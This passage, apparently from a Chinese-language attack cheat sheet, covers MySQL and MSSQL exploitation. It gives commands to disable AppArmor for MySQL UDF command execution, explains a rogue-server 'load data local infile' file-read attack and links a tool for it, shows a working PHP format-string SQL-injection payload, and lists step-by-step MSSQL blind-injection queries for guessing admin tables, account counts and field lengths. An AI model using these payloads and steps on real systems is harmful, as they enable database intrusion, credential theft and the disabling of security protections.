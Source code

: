 https://github.com/sqlmapproject/sqlmap/tree/master/data/udf

因为udf文件较大，详细点击这里

https://files.cnblogs.com/files/kagari/udf.js

高版本中mysql无法向/usr目录写文件，可以导入到/tmp，之后mv到/usr/lib/mysql/plugin下

导入成功之后，如果执行命令为空，则今儿参考https://www.cyberciti.biz/faq/ubuntu-linux-howto-disable-apparmor-commands/

```sh
执行
ln -s /etc/apparmor.d/usr.sbin.mysqld /etc/apparmor.d/disable/
apparmor_parser -R /etc/apparmor.d/usr.sbin.mysqld
service mysql restart
```

##### mysql任意文件读漏洞

原理：

当服务端执行`load data local infile`时，会从客户端会读取对应的文件。 //load data infile则是从服务端本身读取

mysql客户端连接服务端时，服务端可以让客户端执行sql语句，

所以伪造一个服务端，让客户端连接并执行load data local infile即可任意文件读。

这里推荐下 ev0A大佬的工具：https://github.com/ev0A/Mysqlist

例子: phpmyadmin开启远程登陆后就会出现该漏洞

##### 格式化字符串漏洞与sql注入

```php
//?user=%1$\&pass=%20or%201=1%23
<?php
$user=addslashes($_GET['user']);
$pass=addslashes($_GET['pass']);
$sql = "select * from user where username = '$user' and password='%s';";
echo sprintf( $sql, $pass) ;
//select * from user where username = '\' and password=' or 1=1#';
?>
```

### MSSQL

```
1.判断有无注入点 
; and 1=1 and 1=2

2.猜表一般的表的名称无非是admin adminuser user pass password 等.. 
and 0<>(select count(*) from *) 
and 0<>(select count(*) from admin) ---判断是否存在admin这张表

3.猜帐号数目 如果遇到0< 返回正确页面 1<返回错误页面说明帐号数目就是1个 
and 0<(select count(*) from admin) 
and 1<(select count(*) from admin)

4.猜解字段名称 在len( ) 括号里面加上我们想到的字段名称. 
and 1=(select count(*) from admin where len(*)>0)-- 
and 1=(select count(*) from admin where len(用户字段名称name)>0) 
and 1=(select count(*) from admin where len(_blank>密码字段名称password)>0)

5.猜解各个字段的长度 猜解长度就是把>0变换 直到返回正确页面为止 
and 1=(select count(*) from admin where len(*)>0) 
and 1=(select count(*) from admin where len(name)>6) 错误 
and 1=(select count(*) from admin where len(name)>5) 正确 长度是6 
and 1=(select count(*) from admin where len(name)=6) 正确

and 1=(select count(*) from admin where len(password)>11) 正确 
```